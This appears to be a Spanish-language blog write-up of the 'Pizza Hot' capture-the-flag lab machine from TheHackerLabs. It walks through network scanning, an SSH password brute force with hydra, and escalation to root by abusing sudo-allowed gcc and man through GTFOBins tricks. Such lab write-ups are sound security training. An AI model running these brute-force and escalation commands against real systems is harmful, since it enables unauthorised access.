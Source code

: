 ```yaml
---
layout: post
title: "Pizza Hot"
date: 2024-06-14 10:55:23
category: sample
vm: hackerlabs
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Pizza Hot </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/pizzahot/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/PizzaHot/host.png){:.margin}

**1\.** Enumo dispositivos en la red.

`sudo arp-scan -l`

![img](/notas/public/img/thehackerlabs/PizzaHot/arp.png){:.margin}

**2\.** Escaneo los puertos y servicios.

`sudo nmap -p- --open -sCV -T5 -n -Pn --min-rate=5000 192.168.1.9`

![img](/notas/public/img/thehackerlabs/PizzaHot/nmap.png){:.margin}

**3\.** Visito la web, revisando la fuente encuentro un usuario potencial.

![img](/notas/public/img/thehackerlabs/PizzaHot/80.png){:.margin}
![img](/notas/public/img/thehackerlabs/PizzaHot/80code.png){:.margin}

**4\.** Bruteforce con hydra al ssh.

`hydra -l pizzapiña -P /usr/share/wordlists/wockyou.txt ssh://192.168.1.9`

![img](/notas/public/img/thehackerlabs/PizzaHot/hydra.png){:.margin}

**5\.** Conectandome por ssh con el usuario pizzapiña.

`ssh pizzapiña@192.168.1.9`

![img](/notas/public/img/thehackerlabs/PizzaHot/ssh.png){:.margin}

**6\.** Viendo nuestros permisos sudo, tengo el binario gcc que puedo ejecutar como pizzasinpiña.

`sudo -l`

![img](/notas/public/img/thehackerlabs/PizzaHot/sudol.png){:.margin}

**7\.** En [gtfobins](https://gtfobins.github.io/gtfobins/gcc/#sudo) tenemos el comando para escalar o en este caso migrar de usuario.

`sudo -u pizzasinpiña gcc -wrapper /usr/bin/bash,-s .`

![img](/notas/public/img/thehackerlabs/PizzaHot/pizzasinpiña.png){:.margin}

**8\.** Ahora tenemos un binario que podemos ejecutar como root.

`sudo -l`

![img](/notas/public/img/thehackerlabs/PizzaHot/sudol2.png){:.margin}

**9\.** Escalando privilegios a root, [gtfobins](https://gtfobins.github.io/gtfobins/man/#sudo).

_9.1- Ejecutamos el siguiente comando_

`sudo -u root man man`

![img](/notas/public/img/thehackerlabs/PizzaHot/man.png){:.margin}

_9.2- En este punto nos lanzamos una bash_

`!/bin/bash`

![img](/notas/public/img/thehackerlabs/PizzaHot/man2.png){:.margin}

_9.3- Ya somos root_

![img](/notas/public/img/thehackerlabs/PizzaHot/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>